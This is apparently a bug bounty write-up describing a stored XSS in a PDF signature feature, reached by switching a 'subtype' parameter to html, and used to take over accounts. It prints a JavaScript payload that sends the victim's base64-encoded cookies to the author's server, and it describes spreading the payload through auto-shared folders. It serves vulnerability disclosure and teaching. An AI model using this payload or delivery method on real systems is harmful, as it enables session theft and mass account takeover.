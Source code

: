 ```yaml
---
layout: post
title:  "Infected signature in PDF document leads to mass account takeover"
tags: [web, hacking, realstory]
image: "/assets/img/malicious-pdf.jpg"
categories: [bugbounty]
---
```


This article is about a vulnerability that I discovered in a company that I unfortunately cannot name. This company offers a service where other companies can write and share documents online. The finaly impact made it possible for me to perform a mass account take over.


## The target feature

During my testing as a bug bounty hunter, I discovered a feature that allowed a user to add a customized digital hand-drawn signature. The signature could then later be added to PDF documents. When I first came across this feature, I had a question in mind. How can this feature record and visualize my hand drawing which is then generated into a signature?
I quickly came up with a theory and the only thing that was on my mind was SVG. This function must use some form of mouse movement tracking and then convert it to SVG code which later generates the digital signature. I analyzed my Burp Suite proxy history and discovered that my theory was actually correct. The signature had recorded my mouse movement on the client side and generated an SVG code. This code was then sent to the backend in a JSON POST request which allowed it to be stored presumably in a database relative to the current user I was logged in as.


## The vulnerability

For some time with the feature, my first goal was to trigger some kind of sign that the feature was vulnerable by trying to infect the SVG code to run JavaScript, which would result in a stored cross site scripting (XSS) within the PDF document. I couldn't run any JavaScript from the tests I did but instead my payloads made the editor crash. I started to ask myself how it was coded in the back-end and starting to make sense of the other parameters that was included in the JSON body. I hadn't noticed one important parameter named `subtype` parameter which had the value set to `svg`. I changed it to `html` and wrote a basic XSS payload, base64 encoded it and sent the HTTP request. I took the signature and added it to my PDF document in the editor and it fired. Great! Now we have a stored XSS vulnerability in the PDF document and it's time to move on to stage two - exploitation and impact.

## Exploitation

To exploit an XSS and really show the impact. You first need to check some basics such as : 

- Can our user session be read by JavaScript?
- Is our session or any key/token stored on a page?
- Is there any action we can do in our settings that can be done without entering our password?

Fortunately for me, all of these were true. The session of our logged in user was not using the HttpOnly flag which allows client-side JavaScript to read our session. I was able to simply create a JavaScript exploit code to hijack the session from the victim and send the session in base64 form to my own server.

Below is a visual example of the exploitation process
![PDF ATO exploit process](/assets/img/pdf-ato.png)
_Icons can be found at: [https://www.flaticon.com/](https://www.flaticon.com/){:target="_blank"}_

### Payload
The payload (_exploit code_) I used is shown below:
```javascript
const brumens=document.createElement('img');
brumens.src=`https://myserver.com/${btoa(document.cookie)}`;
document.body.appendChild(brumens)"
```

Now that we had our malicious PDF document ready, we had to pass it in a clever way to our victim to avoid social engineering. The application I was hacking had one main feature that allowed companies to use its service and work as a team in shared folders with a very interesting behavior. If someone shared a resource (_document/folder_) with you, it would appear in your sidebar without you having to accept the shared resource. This will be a great way to send our malicious PDF document. I made a folder and added the PDF document to it, then shared it with the Victim (_My other test account_). As expected, the victim had the folder in the sidebar if the victim simply clicks on this shared PDF document in the folder I would have full control over their account as their session will be sent to my own server. Even more impactful is that I don't have to just share it to one person at a time. Instead, I could share my malicious folder to an entire organization or team and everyone who would click the PDF would give out their logged in sessions to me resulting in a mass account take over.